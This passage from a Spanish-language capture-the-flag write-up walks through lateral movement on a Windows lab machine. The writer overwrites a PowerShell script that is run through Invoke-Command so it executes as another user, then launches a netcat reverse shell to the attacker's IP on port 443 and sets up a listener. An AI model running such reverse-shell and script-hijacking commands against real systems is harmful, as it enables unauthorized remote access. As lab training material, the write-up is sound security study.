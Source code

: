 Podemos ver que donde antes se ejecutaba un `Get-Volume` ahora se ejecutará un `whoami`
```console
PS C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {C:\Users\imonks\Desktop\wm.ps1}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {C:\Users\imonks\Desktop\wm.ps1}
acute\jmorgan
```

Y conseguimos ejecutar comandos como `jmorgan`, ahora vamos a mandarnos una reverse shell.

Lo bueno es que la sesión de Sliver la tenemos en `Acute-PC01`, así que simplemente podemos modificar el script para mandarnos una reverse shell con `netcat` como el usuario `jmorgan`

Como `netcat` no es considerado un programa peligroso por defecto en Windows, podemos dejarlo en `C:\ProgramData`

Modificamos el script.
```console
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {sc C:\Users\imonks\Desktop\wm.ps1 -Value "`$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51';`$passwd = `$securepasswd | ConvertTo-SecureString;`$creds = New-Object System.Management.Automation.PSCredential ('acute\jmorgan',`$passwd);Invoke-Command -ScriptBlock {C:\ProgramData\nc.exe 10.10.14.125 443 -e cmd.exe} -ComputerName Acute-PC01 -Credential `$creds"}
```

Ahora podemos comprobar que se ha modificado.
```console
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type C:\Users\imonks\Desktop\wm.p
s1}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type C:\Users\imonks\Desktop\wm.ps1}
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51';$passwd = $securepasswd | ConvertTo-SecureString;$creds = New-Object System.Management.Automation.PSCredential ('acute\jmorgan',$passwd);Invoke-Command -ScriptBlock {C:\ProgramData\nc.exe 10.10.14.125 443 -e cmd.exe} -ComputerName Acute-PC01 -Credential $creds
```

Nos ponemos en escucha en el puerto 443.
```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Ahora lo ejecutamos.
```console
PS C:\ProgramData> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {C:\Users\imonks\Desktop\wm.ps1}
```
